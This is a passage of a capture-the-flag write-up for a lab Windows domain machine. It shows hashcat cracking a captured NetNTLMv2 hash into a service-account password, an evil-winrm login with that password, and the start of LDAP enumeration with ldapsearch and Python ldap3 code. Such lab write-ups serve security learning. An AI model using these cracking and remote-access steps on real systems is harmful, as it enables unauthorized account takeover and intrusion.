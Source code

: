 We can then crack it using `hashcat` with mode 5600 now and we get a credential `SQL_SVC:REGGIE1234ronnie`.

{% code overflow="wrap" %}
```bash
$ hashcat -m 5600 --force mssql/hash.txt <path_to_rockyou>
...
SQL_SVC::sequel:aaaaaaaaaaaaaaaa:ccaa3775661de1f13e604b4852ca1bb4:0101000000000000006614269f9ed901a11548007705bd96000000000100100062007a00430042004d00650050006f000300100062007a00430042004d00650050006f00020010006c0065005800420064006e0055005a00040010006c0065005800420064006e0055005a0007000800006614269f9ed90106000400020000000800300030000000000000000000000000300000ba7e14ae44c472a55ae9f2e3595120b049681885ea1cda180cb1ef3a3eef4d650a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00320032000000000000000000:REGGIE1234ronnie

Session..........: hashcat
Status...........: Cracked
Hash.Name........: NetNTLMv2
Hash.Target......: SQL_SVC::sequel:aaaaaaaaaaaaaaaa:ccaa3775661de1f13e...000000
...
```
{% endcode %}

### WinRM

We can access the target using `evil-winrm` now.

```bash
$ evil-winrm -i <ip> -u sql_svc -p REGGIE1234ronnie
```

## Discovery

### LDAP Search

{% tabs %}
{% tab title="ldapsearch" %}
We can't use `ldapsearch` directly [because LDAP signing is enabled](https://github.com/fox-it/BloodHound.py/blob/760e6ee11375343da443574b1c6b2bd1509a0b8e/bloodhound/ad/authentication.py#L114).

{% code overflow="wrap" %}
```bash
$ ldapsearch -D sql_svc@sequel.htb -x -b 'dc=sequel,dc=htb' -H ldap://escape -w REGGIE1234ronnie
ldap_bind: Strong(er) authentication required (8)
        additional info: 00002028: LdapErr: DSID-0C090259, comment: The server requires binds to turn on integrity checking if SSL\TLS are not already active on the connection, data 0, v4563
```
{% endcode %}
{% endtab %}

{% tab title="ldap3" %}
We can use the Python package `ldap3` to do the LDAP query as the code of `bloodhound.py`.

{% code overflow="wrap" lineNumbers="true" %}
```python
import cmd, logging
from ldap3 import Server, Connection, NTLM, ALL, SASL, KERBEROS

logger = logging.getLogger(__name__)

class ldapsearch(cmd.Cmd):
    def __init__(self, domain, user, passwd, ip):
        super().__init__()
        server = Server("ldaps://%s:3269" % ip, get_info=ALL)
        self.conn = Connection(server, user=f"{domain}\\{user}", auto_referrals=False, password=passwd, authentication=NTLM)
        logger.debug(f"bind={self.conn.bind()}")
    
```